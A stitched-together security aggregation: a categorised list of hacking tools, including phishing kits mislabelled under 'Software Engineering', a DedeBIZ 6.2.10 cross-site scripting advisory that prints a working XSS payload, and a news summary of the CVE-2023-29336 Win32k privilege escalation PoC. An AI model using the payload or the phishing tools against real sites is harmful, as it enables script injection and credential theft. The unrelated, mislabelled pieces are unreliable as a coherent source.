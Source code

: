 🔹Software Engineering:  
▫️GoPhish  
▫️HiddenEye  
▫️SocialFish  
▫️EvilURL  
▫️Evilginx  
  
🔹Forensics:  
▫️SluethKit  
▫️Autopsy  
▫️Volatility  
▫️Guymager  
▫️Foremost  
▫️Binwalk  
▫️Wireshark  
  
🔹Wireless Hacking:  
▫️Aircrack-NG  
▫️Wifite  
▫️Kismet  
▫️TCPDump  
▫️Airsnort  
▫️Netstumbler  
▫️Reaver  
  
🔹Web Application Assessment:  
▫️OWASP ZAP  
▫️Burp Suite  
▫️Nikto  
▫️ZAP  
▫️WPScan  
▫️Gobuster  
▫️App Spider




This is a vulnerability found in DedeBIZ 6.2.10. affected by this issue is some unknown functionality of the component Article Handler, The manipulation leads to cross site scripting  
exp: <xss class="carousel slide" data-ride=carousel data-interval=100 ontransitionend=alert(1)><xss class=carousel-inner><xss class="carousel-item active"></xss><xss class=carousel-item></xss></xss></xss>

CVE-2023-29336 Win32k Privilege Escalation Vulnerability (PoC)  
  
Researchers have released a proof-of-concept (PoC) exploit for an actively exploited Windows local privilege escalation vulnerability fixed as part of the May 2023 Patch Tuesday.  
  
The Win32k subsystem (Win32k.sys kernel driver) manages the operating system's window manager, screen output, input, and graphics, and acts as an interface between various types of input hardware.  
  
As such, exploiting these types of vulnerabilities tends to provide elevated privileges or code execution.  
  
The vulnerability is tracked as CVE-2023-29336 and was originally discovered by cybersecurity firm Avast. It was assigned a CVSS v3.1 severity rating of 7.8 as it allows low-privileged users to gain Windows SYSTEM privileges, the highest user mode privileges in Windows  
  